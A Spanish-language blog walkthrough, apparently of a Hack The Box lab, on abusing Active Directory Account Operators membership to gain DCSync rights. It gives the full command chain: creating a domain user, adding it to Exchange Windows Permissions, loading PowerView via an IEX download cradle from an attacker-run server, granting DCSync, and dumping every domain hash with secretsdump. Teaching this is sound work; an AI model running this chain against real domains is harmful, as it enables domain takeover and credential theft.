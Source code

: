 ```yaml
---
title: Active Directory - Abusando del Grupo Account Operators
description: Abusando del grupo Account Operators para desencadenar en un DCSync Attack.
date: 2024-11-06
categories: [active-directory, account-operators]
tags: [grupos-de-usuarios-especiales, dcsync, secretsdump, exchange-windows-permissions, escalada-de-privilegios, casos-de-ataques-ad]
img_path: /assets/img/esquema-representativo-para-un-dcsync-desde-svc-alfresco.png
image: /assets/img/esquema-representativo-para-un-dcsync-desde-svc-alfresco.png
---
```


## **Introducción**

El grupo **Account Operators** lo que nos permite es la creación, modificación y eliminación de usuarios y grupos. Es por esto, por lo que supone una vía potencial de **escalada de privilegios** ya que podemos crear un usuario y asignarle el grupo *Exchange Windows Permissions* el cual, nos permitirá efectuar un *DCSync Attack*.

### **Gráfico del escenario**

En este escenario, aprenderemos a abusar del grupo **Account Operators** para poder realizar un *DCSync Attack*. Primero, crearemos un usuario aprovechando los permisos del grupo **Account Operators**. A este usuario, lo añadiremos al grupo **Exchange Windows Permissions**, desde el cual podremos asignarnos el privilegio de *DCSync*.

![esquema representativo para un dcsync desde svc-alfresco](/assets/img/esquema-representativo-para-un-dcsync-desde-svc-alfresco.png)

### **Contexto**

Supongamos que estamos en el grupo *Account Operators*, o en algún grupo que indirectamente sea miembro de dicho grupo. En este caso, nos encontramos como el usuario *svc-alfresco* el cual, es miembro del grupo *Service Accounts*.

![net user svc-alfresco](/assets/img/net-user-svc-alfresco.png)

Este grupo a su vez es miembro de *Privileged IT Accounts* y este mismo grupo a su vez, pertenece al grupo de *Account Operators*. Desde el grupo de *Account Operators* podemos añadir un usuario al grupo de *Exchange Windows Permissions*, desde el cual nos podremos asignar el privilegio de *DCSync* y **dumpearnos todos los hashes NTLMv2 de todos los usuarios del dominio**.

Todo esto, lo podemos ver más claro desde BloodHound.

![esquema de ataque para un dcsync desde svc-alfresco](/assets/img/esquema-de-ataque-para-un-dcsync-desde-svc-alfresco.png)

Al pertenecer indirectamente al grupo **Account Operators**, la cuenta *svc-alfresco* obtiene privilegios que le permiten realizar tareas como:

- **Crear, modificar y eliminar cuentas de usuario**.
- **Gestión de la membresía del grupo**.
- **Desbloqueo y restablecimiento de contraseñas**.
- **Gestión de propiedades de cuenta**.
- **Asignación y modificación de derechos de usuario**.

## **Manos a la obra**

Para abusar de esto, primeramente empezaremos creando un usuario y añadirle al dominio.

```powershell
net user hegociv hegociv123 /add /domain
```

Podemos comprobar las propiedades de este usuario.

```powershell
net user hegociv
```

![net user hegociv](/assets/img/net-user-hegociv.png)

Seguidamente, vamos a ver los grupos a los que le podemos asignar. En esta lista si observamos, nos encontramos con el grupo *Exchange Windows Permissions*.

![net group exchange windows permissions](/assets/img/net-group-exchange-windows-permissions.png)

Este grupo, tiene el permiso de **WriteDacl access** sobre el dominio (en este caso, sobre *htb.local*), que permite a cualquier miembro de este grupo, modificar los privilegios del dominio. Entre ellos, se encuentra el **privilegio de DCSync**.

Ahora que vemos que el grupo de *Exchange Windows Permissions* está disponible, añadiremos al usuario *hegociv*.

```powershell
net group "Exchange Windows Permissions" hegociv /add
```

Si visualizamos de nuevo, las propiedades de este usuario, veremos como ahora pertenecemos a este grupo.

![net user hegociv exchange windows permissions](/assets/img/net-user-hegociv-exchange-windows-permissions.png)

También, podemos ver los miembros y la información de este grupo.

```powershell
net group "Exchange Windows Permissions"
```

![net group exchange windows permissions information](/assets/img/net-group-exchange-windows-permissions-information.png)

En este momento, nos encontramos en el punto en el que deberemos de asignar el privilegio de *DCSync* pero antes, deberemos de configurar las credenciales del usuario con los siguientes comandos.

```powershell
$SecPassword = ConvertTo-SecureString 'hegociv123' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('DOMINIO\hegociv', $SecPassword)
```

En este caso, el *DOMINIO* será `htb.local`, por lo que deberemos de dejar este último comando de la siguiente manera.

```powershell
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\hegociv', $SecPassword)
```

Una vez que hemos creado el objeto, podremos manipularlo con `Add-DomainObjectAcl` para decirle: "*quiero que este usuario, cuya credencial es esta, asignarle el privilegio de DCSync*". Sin embargo, el comando de `Add-DomainObjectAcl` no existe de primeras, por lo que tendremos que invocarlo.

Para invocarlo, usaremos *[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)* desde el que nos descargaremos el binario de *[PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)*.

```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1
```

Seguidamente, realizaremos una carga remota, por lo que nos ponemos primeramente en escucha con *Python3*, desde la ruta en la que se encuentra el binario de *PowerView.ps1*.

```bash
python3 -m http.server 8080
```

E invocaremos el binario desde *PowerShell* en la máquina víctima.

```powershell
IEX(New-Object Net.WebClient).downloadString('http://NUESTRA-IP:8080/PowerView.ps1')
```

Gracias a esto, habremos invocado el comando directamente.

![invocando el comando remotamente](/assets/img/invocando-el-comando-remotamente.png)

Ahora sí, podremos ejecutar el comando `Add-DomainObjectAcl` para asignar el privilegio de *DCSync*. Teniendo en cuenta que, nuestro dominio es *htb.local* y nuestro usuario es *hegociv*, deberemos de ejecutar el comando de la siguiente manera. Si tenemos otros datos, modificaremos estos mismos para que adaptarlo a nuestro caso.

>**A tener en cuenta**<br>
>El propio *BloodHound*, nos dice de asignar el privilegio *DCSync* de la siguiente forma:
>
>`Add-DomainObjectAcl -Credential $Cred -TargetIdentity DOMINIO -Rights DCSync`
>
>Sin embargo, este comando no nos funcionará correctamente y se nos quedará pillado. Por eso, debemos de modificar este comando para que funcione adecuadamente.

```powershell
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity hegociv -Rights DCSync
```

Ahora sí, podremos **dumpear todos los hashes NTLMv2 de los usuarios**. Para ello, usaremos `secretsdump.py` o `impacket-secretsdump`, indicándole el dominio, usuario e IP del DC correspondiente. Además, podemos indicarle que nos guarde todos los *hashes* en un fichero que nosotros le indicaremos con el parámetro `-outputfile`.

```bash
impacket-secretsdump DOMINIO/hegociv@IP -outputfile dcsync_hashes
```

![dumpeando todos los hashes NTLMv2 del dominio con impacket-secretsdump](/assets/img/dumpeando-todos-los-hashes-NTLMv2-del-dominio-con-impacket-secretsdump.png)

Podemos visualizar estos *hashes*, en el fichero que le hemos especificado más `.ntds`.

![fichero dcsync_hashes ntds secretsdump](/assets/img/fichero-dcsync-hashes-ntds-secretsdump.png)

## Enlaces de referencia
Los siguientes son una serie de enlaces los cuales, me han ayudado a realizar este artículo y a aprender sobre ello.

- [Account Operators Privilege Escalation](https://blog.cyberadvisors.com/technical-blog/blog/account-operators-privilege-escalation)
- [Resolución de la Máquina Forest - S4vitar](https://www.youtube.com/watch?v=7G5wkoBpFWU)
- [HackTricks - Dcsync](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)
- [Everything you need to know about DCSync attacks](https://blog.quest.com/everything-you-need-to-know-about-dcsync-attacks/)

## Despedida
Muchas gracias por leer este artículo, espero que hayas aprendido mucho sobre este escenario en el que abusamos del grupo de **Account Operators** para derivarlo a un **DCSync Attack**. ¡Nos vemos en la próxima
